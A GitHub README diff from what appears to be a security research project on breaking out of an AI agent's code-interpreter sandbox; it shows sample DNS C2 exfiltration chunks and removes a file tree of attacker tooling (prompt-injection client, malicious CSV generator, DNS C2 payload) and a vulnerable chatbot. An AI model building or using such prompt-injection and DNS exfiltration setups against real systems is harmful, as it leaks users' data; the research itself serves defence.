

Before and after one commit to BeyondTrust/pwning-agentcore-code-interpreter, a Markdown page: README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Remove project structure details from README
Removed project structure section detailing the repository's infrastructure.

````diff
--- a/README.md
+++ b/README.md
@@ -65,39 +65,6 @@ Large outputs split into multiple chunks (60 chars max per label):
   Chunk 2:  1.2.22.1235.OAoyMDI1LTA4LTIwIDE5OjEyOjQ2IGFnZW50LWdvYXQtZGVtby1idWN.1.sess_abc123.c2.bt-research-control.com
   ...
   Chunk 22: 1.22.22.1256.dGVzLXVzLWVhc3QtMS00NDU1NzA5MjEyOTg-.1.sess_abc123.c2.bt-research-control.com
-```
-
-## Project Structure
-
-This repository now contains two separate infrastructures to demonstrate a realistic attack scenario:
-
-```
-agentcore-sandbox-breakout/
-├── attacker-infra/          # Attacker's AWS account
-│   ├── terraform/           # C2 server infrastructure (EC2, Route53, DNS)
-│   ├── c2/                  # C2 Python package (installable CLI)
-│   │   ├── cli/             # Click CLI commands
-│   │   │   ├── main.py      # CLI entry point
-│   │   │   ├── attack.py    # Attack commands
-│   │   │   └── session.py   # Session management
-│   │   ├── core/            # Core functionality
-│   │   │   ├── attack_client.py     # HTTP client for prompt injection
-│   │   │   ├── payload_generator.py # Malicious CSV generator
-│   │   │   ├── dns_protocol.py      # DNS encoding/decoding
-│   │   │   └── session_manager.py   # C2 session management
-│   │   └── payload/         # Payload for Code Interpreter
-│   │       └── client.py    # DNS C2 client payload
-│   ├── tests/               # Unit and integration tests
-│   ├── pyproject.toml       # Package definition
-│   └── Makefile
-│
-├── victim-infra/            # Victim's AWS account
-│   ├── terraform/           # Chatbot infrastructure (ECS, ALB, AgentCore)
-│   ├── chatbot/             # Vulnerable FastAPI application
-│   └── Makefile
-│
-├── docs/                    # Technical specifications
-└── Makefile                 # Root Makefile for orchestration
 ```
 
 ## Realistic Attack Demo (No Credentials Required)
````
